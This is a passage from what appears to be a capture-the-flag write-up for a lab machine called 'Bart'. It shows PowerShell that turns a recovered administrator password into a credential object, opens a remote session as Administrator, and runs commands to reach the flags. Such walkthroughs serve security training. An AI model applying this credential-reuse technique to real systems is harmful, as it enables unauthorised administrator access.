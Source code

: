 ```powershell
$pw = ConvertTo-SecureString -string "3130438f31186fbaf962f407711faddb" -AsPlainText -force;
$pp = new-object -typename System.Management.Automation.PSCredential -ArgumentList "BART\Administrator", $pw;
Enter-PSSession -ComputerName localhost -Credential $pp
```

From the PSSession we can run commands using this syntax:

```powershell
Invoke-Command -ScriptBlock { command }
```

![img](/images/writeup-bart/27.png)

And finally as administrators we have access to both flags (for some reason user.txt is NOT in a desktop folder this time around):

![img](/images/writeup-bart/28.png)

![img](/images/writeup-bart/29.png)




